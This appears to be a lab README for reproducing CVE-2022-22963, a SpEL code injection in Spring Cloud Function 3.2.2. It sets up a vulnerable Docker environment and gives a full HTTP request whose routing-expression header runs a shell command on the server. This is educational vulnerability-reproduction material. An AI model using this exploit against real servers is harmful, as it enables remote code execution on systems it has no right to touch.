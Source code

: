 # Spring Cloud Function SpEL Code Injection (CVE-2022-22963)

[中文版本(Chinese version)](README.zh-cn.md)

Spring Cloud Function provides a common model for deploying function-based software on a variety of platforms, including FaaS (function as a service) platforms like Amazon AWS Lambda.

References:

- <https://tanzu.vmware.com/security/cve-2022-22963>
- <https://mp.weixin.qq.com/s/onYJWIESgLaWS64lCgsKdw>
- <https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f>

## Vulnerability Environment

Execute the following command to start a server that uses Spring Cloud Function 3.2.2:

```
docker compose up -d
```

After server is started, execute `curl http://your-ip:8080/uppercase -H "Content-Type: text/plain" --data-binary test` you can convert the user input to uppercase.

## Vulnerability Reproduce

There is a SpEL expression injection in the request header `spring.cloud.function.routing-expression`.

Send the following request to execute `touch /tmp/success` on the target server:

```
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

![](1.png)

As you can see, `touch /tmp/success` has been executed successfully.

![](2.png)
